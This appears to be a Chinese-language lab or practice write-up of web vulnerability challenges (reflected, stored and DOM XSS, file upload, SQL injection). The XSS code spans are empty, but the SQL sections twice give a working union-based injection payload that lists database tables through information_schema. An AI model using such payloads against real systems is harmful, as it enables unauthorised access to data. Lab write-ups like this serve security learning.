



[xssreflected](#xssreflected)
[xssstored](#xssstored)
[xssdom](#xssdom)
[文件上传](#文件上传)
[sql注入](#sql注入)
[sql盲注](#sql盲注)
# xssreflected
没有任何过滤
``

# xssstored
还是没有任何过滤
``

# xssdom
查看回显，自动过滤<之后的内容
``
小括号死活绕不过去
``
这个不过滤

# 文件上传
php和普通图片都上传不了。。。。
# sql注入
查询得到不回显，查询不到显示exist，闭合方式为'
`1' union select 1,database(),3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database()#`
# sql盲注
根本不是盲注，还是联合查询
`1' union select 1,database(),3,4,group_concat(table_name),6,7 from information_schema.tables where table_schema=database()#`